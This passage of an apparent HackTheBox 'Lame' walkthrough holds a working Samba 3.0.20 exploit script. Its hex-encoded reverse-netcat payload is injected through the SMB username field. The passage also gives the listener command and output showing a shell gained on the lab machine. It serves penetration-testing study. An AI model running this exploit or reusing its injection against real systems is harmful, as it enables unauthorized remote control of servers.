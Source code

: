 > Putting everything together
```python
#!/usr/bin/python3
#Samba 3.0.20-Debian
from smb import *
from smb.SMBConnection import *

#msfvenom -p cmd/unix/reverse_netcat LHOST=<Attacker-IP> LPORT=<Attacker-Port> -f python
payload =("\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x6b"
				"\x6d\x71\x74\x67\x68\x68\x3b\x20\x6e\x63\x20\x31\x30"
				"\x2e\x31\x30\x2e\x31\x34\x2e\x32\x20\x34\x34\x34\x34"
				"\x20\x30\x3c\x2f\x74\x6d\x70\x2f\x6b\x6d\x71\x74\x67"
				"\x68\x68\x20\x7c\x20\x2f\x62\x69\x6e\x2f\x73\x68\x20"
				"\x3e\x2f\x74\x6d\x70\x2f\x6b\x6d\x71\x74\x67\x68\x68"
				"\x20\x32\x3e\x26\x31\x3b\x20\x72\x6d\x20\x2f\x74\x6d"
				"\x70\x2f\x6b\x6d\x71\x74\x67\x68\x62");

userID = "/=` nohup " + payload + "`"
password = 'evil'
ip = '10.10.10.3'

conn = SMBConnection(userID, password,"some","thing", use_ntlm_v2=False)
conn.connect(ip, 445)
```

Now we start a listener on another shell
```
nc -lvnp 4444
```


We might run into an error while executing the script & in order to fix it we have to install the following python module if we are missing it:
```python
pip3 install pysmb
```

Now we can run it again.. and if we have our listener ready we should be able to get a shell back

## Pwnd
We got a shell back, the first thing we look for is to make it interactive, for that matter we will see if the machine has python with
```
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Lame]
└─$ nc -lvnp 4444       
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 45241
ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
nohup.out
opt
proc
root